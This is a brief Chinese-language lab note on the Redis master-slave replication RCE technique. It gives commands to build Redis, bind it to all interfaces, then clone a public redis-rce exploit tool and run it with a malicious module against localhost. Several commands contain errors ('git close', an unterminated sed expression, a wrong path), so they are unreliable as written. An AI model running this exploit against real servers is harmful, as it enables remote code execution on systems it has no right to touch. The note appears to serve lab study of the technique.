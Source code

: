 ## Redis基于主从复制的RCE利用方式
**参考：**
- https://mp.weixin.qq.com/s/cOdCbO17Jq_J1XnpsxplZg
- https://paper.seebug.org/975/

### 环境搭建

redis环境配置：
```bash
cd /root
wget http://download.redis.io/releases/redis-5.0.0.tar.gz
tar xzf redis-5.0.0.tar.gz
cd redis-5.0.0
make
sed -i 's/127.0.0.1/0.0.0.0' redis.conf
cd src
./redis-server /root/redis-5.0.0.0/redis.conf
```


### 攻击
下载脚本并攻击
```bash
git close https://github.com/Ridter/redis-rce
cd redis-rce
python3 redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f exp_lin.so
```
![](/images/19-7-10_SQL_Redis基于主从复制的RCE利用方式_1.png)
![](/images/19-7-10_SQL_Redis基于主从复制的RCE利用方式_2.png)